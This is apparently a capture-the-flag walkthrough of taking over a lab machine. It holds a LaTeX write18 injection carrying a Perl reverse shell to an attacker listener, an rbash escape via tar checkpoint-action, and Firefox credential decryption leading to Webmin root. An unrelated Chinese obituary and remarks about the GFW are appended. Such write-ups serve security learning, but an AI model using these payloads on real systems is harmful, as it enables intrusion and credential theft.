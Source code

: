 The exploit code attached here:

```bash
$ # On the Attacker
$ nc -lvp 8778
```

Submit this to the server:

```latex
\immediate\write18{perl -e 'use Socket;$i="<YOUR IP HERE>";$p=8778;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'}
```

Use `python3` to get a tty-spawned shell: `python -c 'import pty; pty.spawn("/bin/bash")'`

## Get normal user

```bash
$ whoami
www-data
```

Next, `su ayush` with password `jiujitsu` and you'll found you only have `/opt/rbash`, a restricted bash.

Check `echo $PATH` found that your `PATH=/home/ayush/.app`, try `ls`, got `command-not-found`, try `dir` get: this directory only has `tar`, `ping`, `dir`, three executable files.

Use `tar` to escalate: `tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash`

After you get escalated: `export PATH=$PATH:/usr/bin:/usr/local/bin:/bin:/sbin` to `cat /home/ayush/user.txt`.

## Get Rooted

According to nmap, there's a webapp called "Webmin" on port 10000 with SSL. It should not sound strange to Linux administrators.

So, there's a `.mozilla` in the home and seems like two databases which may store credentials about the webapp. Try to decrypt using script here: https://github.com/unode/firefox_decrypt

> How to upload the script to the box? Simply open a HTTP server and `wget` it on the box. 

The master password is the same one as `su` used one. Then, you get stored credentials in webmin. Webmin authentication is running via Unix Authentication by default.

Now you have root and webmin. Do anything you want.

(Finished.) 2019.5.14

# 插播一条讣告

> https://teddysun.com/548.html
> TeddySun 的工作帮助我在小白时期减少了很大的工作量，现在，虽然我已经学到了很多关于 Linux 的东西，仍然喜欢用他的 BBR 脚本。 没了逸冰，没了逗比，还会有易冰，还会有豆比，GFW 不倒，翻墙之路不止！
> 在此问候举报者全家！
> 同样，在文末向将翻墙难度降低数十个数量级的几位大佬致敬，一路保重！
> 番外：个人建议了解一键脚本原理，慢慢学习、了解工作原理，逐步学习更多的知识，增强自己，早日肉翻。
> 番外2：我不完全反对 GFW，GFW 可以在提供明文禁止提示、有明文立法限制的情况下墙掉邪教和恐怖主义、儿童色情网站，但是不是现在这样的 GFW！
